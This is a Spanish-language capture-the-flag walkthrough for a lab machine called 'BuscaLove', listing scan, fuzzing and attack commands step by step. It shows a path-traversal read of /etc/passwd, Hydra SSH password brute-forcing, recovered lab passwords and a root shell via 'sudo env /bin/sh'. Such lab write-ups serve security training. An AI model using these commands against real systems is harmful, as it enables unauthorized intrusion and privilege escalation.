 Maquina: BuscaLove

Autor: Prendelo

Dificultad: Facil

ping 172.17.0.2 -c 1 

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv 

Vamos a la web y encontramos la pagina de apache2.

Realizamos un escaneo de directorios y encontramos un directorio llamado WordPress.

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.17.0.2

Al dirigirnos a esa dirección podemos ver que se trata de una página muy simple en la cual los enlaces no redireccionan a ninguna página.

Realizamos un escaneo para ver si encontramos algún archivo o carpeta, pero no obtenemos nada, solo sabemos que el index es index.php.

gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.17.0.2

Probamos a realizar fuzzing para ver si es posible listar algún archivo. Como no sabemos que archivo encontrar nos apoyaremos del passwd y si lo encuentra podemos también saber que existe un posible LFI

Enviamos el comando y podemos observar que el parámetro es love.

wfuzz -c --hc=404,115 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.22.0.2/wordpress/index.php?FUZZ=../../../../../etc/passwd | grep -v 1040

Si ingresamos la URL en el navegador y vamos al view-source podemos observar con mayor facilidad el passwd.

view-source:http://172.22.0.2/wordpress/index.php?love=../../../../etc/passwd

No solo observamos que es posible un LFI, sino que también tenemos dos usuarios, rosa y pedro,

Aplicamos fureza bruta con hydra

hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -s 22 -t 64

encontramos en password: lovebug

Nos metemos por ssh con los credenciales encontrados

ssh rosa@172.17.0.2
lovebug

sudo -l

Tenemos dos binarios que nos pueden ser de utilidad, en el caso de ls nos permite listar archivos como root y usando cat de esta manera podemos leerlos.

sudo /usr/bin/ls /root

Haciendo uso de cat procedemos a leer el archivo y observamos que es un archivo al parecer en formato hexadecimal.

Copiamos este texto cifrado en la página de CyberChef y podemos observar que primero el texto estaba en formato Hexadecimal y luego en base 32, pero transformando ambos podemos observar que el texto era noacertarasosi.

Pobamos las credenciales encontradas con el usuario pedro.

su pedro
noacertarasosi

sudo -l

sudo env /bin/sh

whoami




